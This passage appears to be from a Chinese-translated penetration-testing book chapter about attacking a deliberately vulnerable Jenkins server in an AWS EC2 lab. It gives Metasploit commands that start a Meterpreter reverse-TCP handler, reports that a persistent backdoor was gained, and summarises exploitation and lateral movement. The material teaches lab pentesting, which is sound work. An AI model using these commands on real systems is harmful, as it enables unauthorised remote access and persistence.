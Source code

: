 现在，我们设置 Metasploit 来侦听传入的连接。逐个发出以下命令：

```
use multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <<Kali IP Address>>
set LPORT 4444
run
```

我们从目标服务器获得一个新的传入连接：

![](img/ed93de70-06b1-4c42-a553-fb803690bd74.jpg)

因此，我们成功地创建了一个到受损服务器的后门，并创建了持久访问。我们的练习到此结束。这种持久访问现在可以用于横向移动，并允许我们破坏网络中的其他机器。

# 总结

本章向您介绍了如何设置易受攻击的 EC2 环境，模拟受限网络，然后对其执行渗透测试。我们了解了如何以易受攻击的方式配置 Jenkins 服务器。随后，我们学习了如何设置 Nexpose 漏洞扫描程序，然后在易受攻击的 Jenkins 服务器上执行漏洞扫描。此外，我们还学习了如何使用 Metasploit 执行 Jenkins 的自动利用，以及如何使用 MeterMeter 有效负载来旋转主机并在受限网络内执行横向移动。

这就到了第五章的结尾。在下一章中，我们将学习 EBS 卷、磁盘加密和卷快照。此外，我们将学习如何执行法医分析，并从 EBS 卷中恢复丢失的数据。

# 进一步阅读

*   [https://www.packtpub.com/networking-and-servers/mastering-metasploit](https://www.packtpub.com/networking-and-servers/mastering-metasploit)
*   [https://nexpose.help.rapid7.com/docs/security-console-quick-start-guide](https://nexpose.help.rapid7.com/docs/security-console-quick-start-guide)
*   [https://jenkins.io/doc/tutorials/](https://jenkins.io/doc/tutorials/)****
